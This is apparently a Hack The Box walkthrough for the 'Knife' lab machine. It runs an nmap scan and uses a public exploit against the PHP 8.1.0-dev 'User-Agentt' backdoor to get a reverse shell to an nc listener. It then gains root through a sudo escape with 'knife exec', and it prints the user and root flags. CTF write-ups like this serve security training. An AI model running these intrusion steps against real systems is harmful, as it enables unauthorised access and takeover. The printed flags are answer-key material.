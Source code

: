 
# HTB Walkthrough - Knife

**Machine Name**: Knife  
**Target IP**: 10.129.11.28

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Knife 10.129.11.28
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

> ✅ **Open TCP Ports:** 2

---

## 🌐 Web Enumeration

### 🔎 Wappalyzer & Headers

- Web Server: **Apache/2.4.41 (Ubuntu)**
- Programming Language: **PHP 8.1.0-dev**
- Powered by: **Ubuntu**

### 🔥 Exploitable Header

According to [Juniper Threat Labs](https://www.juniper.net/us/en/threatlabs/ips-signatures/detail.HTTP:PHP:PHP-810-DEV-AGENTT-RCE.html), PHP 8.1.0-dev is vulnerable to RCE via the `User-Agentt` header.

> ✅ **RCE Header:** `User-Agentt`

---

## ⚔️ Exploitation

### 🧪 RCE via `User-Agentt` Header

GitHub PoC: [PHP 8.1.0-dev RCE Exploit](https://github.com/j4k0m/PHP-8.1.0-dev-RCE)

#### Payload Script
```bash
./exploit.sh 10.129.11.28 10.10.14.156 9999
```

#### Listener
```bash
nc -nlvp 9999
```

### 💻 Reverse Shell Access

```bash
id
uid=1000(james) gid=1000(james) groups=1000(james)
```

> ✅ **Web Server Running As:** james

---

## 🧍 User Flag

```bash
cat /home/james/user.txt
63ed48a287ee1f103e197e2e027cb4cf
```

> 🏁 **User Flag:** `63ed48a287ee1f103e197e2e027cb4cf`

---

## ⬆️ Privilege Escalation

### 🔍 Sudo Rights

```bash
sudo -l
```

```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

> ✅ **Sudo Binary:** `/usr/bin/knife`

### 🔓 Root Shell via Knife

Reference: [GTFOBins - knife](https://gtfobins.github.io/gtfobins/knife/#sudo)

```bash
sudo knife exec -E 'exec "/bin/sh"'
```

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 👑 Root Flag

```bash
cat /root/root.txt
1888d3c38b467903dfa81d9ace919f9e
```

> 🏁 **Root Flag:** `1888d3c38b467903dfa81d9ace919f9e`
